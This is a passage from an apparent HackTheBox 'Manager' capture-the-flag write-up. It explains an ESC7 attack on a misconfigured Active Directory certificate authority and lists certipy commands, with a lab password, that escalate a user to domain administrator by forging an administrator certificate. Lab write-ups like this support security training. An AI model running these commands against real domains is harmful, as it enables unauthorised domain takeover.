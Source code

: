 ```

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!
```

Although no vulnerable templates were found, I noticed that the `Raven` user was given `Allow ManageCA` permissions. This is a misconfiguration that allows for the ESC7 attack.

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7" %}

The repository for `certipy` has all the commands needed to execute this attack. Take note that one of the commands is meant to fail in order to grab the private key. 

{% embed url="https://github.com/ly4k/Certipy#esc7" %}

Take note that these commands have to be entered FAST in order to prevent the machine from resetting halfway through and making the attack fail. Take note that `<NUM>` is to be replaced with the number in the private key file name (if it is called `13.key`, then use 13 in the commands).

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -template SubCA -upn administrator@manager.htb
certipy ca -ca 'manager-DC01-CA' -issue-request <NUM> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -retrieve <NUM>
```

If done correctly, this will be the result:

![](../../.gitbook/assets/htb-manager-image-4.png)
